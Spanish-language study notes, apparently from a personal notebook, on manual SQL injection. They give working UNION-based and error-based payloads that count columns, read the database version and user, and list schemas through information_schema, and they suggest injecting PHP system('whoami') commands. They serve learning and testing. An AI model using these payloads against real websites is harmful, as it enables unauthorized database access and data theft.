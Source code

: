 El primer paso es **averiguar el número de columnas**

Error based
````sql
$WORD' order by 100-- -
````

![[Pasted image 20230122171131.png]]


#### Explicación general
**Error based** o cuando se ve un error.
Esto se trata de causar un error que se mostrará en la página y así nosostros identificamos que es vulnerable a sqli

100 --> Es el número de columnas por el que le estamos pidiendo que ordene, en caso de no existir 100 columnas saltaría un error, de está forma vamos a ir probando **hasta que no salte error**, cuando esto sea así significa que ese es el **máximo de columnas**


**La diferencia de usar order by y del unio**n es que el union **solo se mostrara cuando es el número exacto de columnas**, mientras que el **order by** se mostrará cuando sea el número **igual que la columna o más pequeño**
También se puede con union:
````sql
$WORD' union select 1-- -
````


En este caso cuando no de error, es que esa es la cantidad de columnas existentes

Una vez conocido el total de columnas utilizamos el union:
````sql
$WORD' union select 1,2,3-- -
````
Los **números representan las columnas existentes**.
Si no funciona con números probar con **null**
![[Pasted image 20230122171929.png]]
Si esto funciona podemos empezar a introducir comandos sql en los números:
````sql
$WORD' union select version(),user()-- -
````
Puede que en algunas webs se interprete php y podamos poner comandos ("\<?php system('whoami'); ?>")

==Atención!==
**No todos los campos son válidos/inyectables** para introducir los comandos, tenemos que fuzzear  todos los campos para ver cuál es el válido

## Listar BD

**Ver las bases de datos disponibles**
````sql
$WORD' union select 1,schema_name from information_schema.schemata-- -
````
**En algunas ocasiones no deja mostrar varias filas**, para ello podemos utiliza la función concat()
````sql
$WORD' union select 1,concat(schema_name) from information_schema.schemata-- -
````
